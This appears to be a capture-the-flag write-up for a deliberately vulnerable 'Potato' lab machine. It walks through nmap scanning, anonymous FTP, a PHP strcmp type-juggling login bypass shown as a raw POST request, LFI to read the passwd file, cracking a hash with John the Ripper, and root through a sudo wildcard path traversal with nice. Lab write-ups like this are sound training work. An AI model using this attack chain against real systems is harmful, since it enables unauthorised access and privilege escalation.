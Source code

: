 # Enumeration 

Starting with nmap
```bash
Nmap scan report for 192.168.154.101
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:192.168.154.101]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2112-TCP:V=7.92%I=7%D=12/24%Time=61C5BB1C%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,92,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:192\
SF:.168\.154\.101\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\
SF:x20creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cr
SF:eative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.98 seconds

```
We have port 22(SSH), 80(HTTP) and 2112. Looking at script scan from nmap, we can tell that 2112 is running FTP.

## FTP
FTP has anonymous access allowed.
```bash
ftp 192.168.154.101 2112
Name (192.168.154.101:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:

ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

Lets download the files. Looking at `Index.php.bak` file, we got the source-code. The code contains PHP code,  
```php
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
```

Here, the code was checking for username to be admin and password to potato. Lets check the website.

## Port 80

![image](https://user-images.githubusercontent.com/43528306/147365833-a6d500a8-93e1-4e4f-9292-806f5577711b.png)

The website just contained `Under Construction` message. Lets start directory brute-forcing.
```bash
 ffuf -u http://192.168.154.101/FUZZ -w /usr/share/wordlists/dirb/common.txt -c -e .php,.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.154.101/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 245, Words: 31, Lines: 9]
index.php               [Status: 200, Size: 245, Words: 31, Lines: 9]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
:: Progress: [13842/13842] :: Job [1/1] :: 253 req/sec :: Duration: [0:00:58] :: Errors: 0 ::
```
Looking at the results, we found `/admin`. Navigating to it, there's a login form.

![image](https://user-images.githubusercontent.com/43528306/147365858-8ff80a8c-a706-42f7-863c-9c7cf40292e0.png)

We have credentials from the source-code we got via FTP. Using the credentials, we were not able to login. Maybe it was changed
```php
$pass= "potato"; //note Change this password regularly
```
 
Looking back at the source-code, we see 
```php
if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0)
```
 
The code was using `strcmp` with loose comparision (==). We have same case in [this](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf), which refers
to `PHP Type Juggling`. According to it, we can simply pass an array in password field, which will make the 
```php
strcmp(array(),$pass) -> NULL
```
And NULL == 0, which will make the condition true and bypass the authentication.
 
```bash
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.157.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://192.168.157.101
Connection: close
Referer: http://192.168.157.101/admin/index.php
Upgrade-Insecure-Requests: 1

username=admin&password[]=admin
```
We now have access to admin panel

![image](https://user-images.githubusercontent.com/43528306/147366023-a308d85b-6302-47e0-b0d0-ff119221d2ff.png)

Looking at the options on the page, we found that the log server was vulnerable to LFI

###  Exploiting LFI
The `log` option was allowing us to choose the log file and we can look at them. The request was taking a `file` post parameter, this was vulnerable to LFI.
We can try using LFI payload to retrieve passwd file and we were indeed successful.

![image](https://user-images.githubusercontent.com/43528306/147366338-104b85a1-93e9-4675-b478-0dfbb7a9be67.png)

Looking at the output, we can see the password for user named `webadmin`. We can try cracking this hash using *John The Ripper*. 
```bash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (?)
1g 0:00:00:00 DONE (2021-12-24 22:41) 3.571g/s 1371p/s 1371c/s 1371C/s 123456..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We were successfully able to crack the password. We can now ssh into the box.

### Shell as webadmin

We now have shell as `webadmin`, checking for the sudo permissions
```bash
webadmin@serv:/tmp$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```
*Webadmin* was allowed to run `nice` binary on `/notes/*`.

According to [wikipedia](https://en.wikipedia.org/wiki/Nice_(Unix))
> nice is used to invoke a utility or shell script with a particular CPU priority


Also, there's a wildcard too which makes it vulnerable. We can here simply climb up the directory and execute our script as root. 
Lets create a simple bash script to test it 
```bash
webadmin@serv:~$ chmod +x test.sh;cat test.sh 
whoami
webadmin@serv:~$ pwd
/home/webadmin
webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/test.sh
root
```
We were able to execute the script as root. We can now change the content of our script to `bash -p` and get shell as root
```bash
root@serv:~# id
uid=0(root) gid=0(root) groups=0(root)
```

ROOT!!
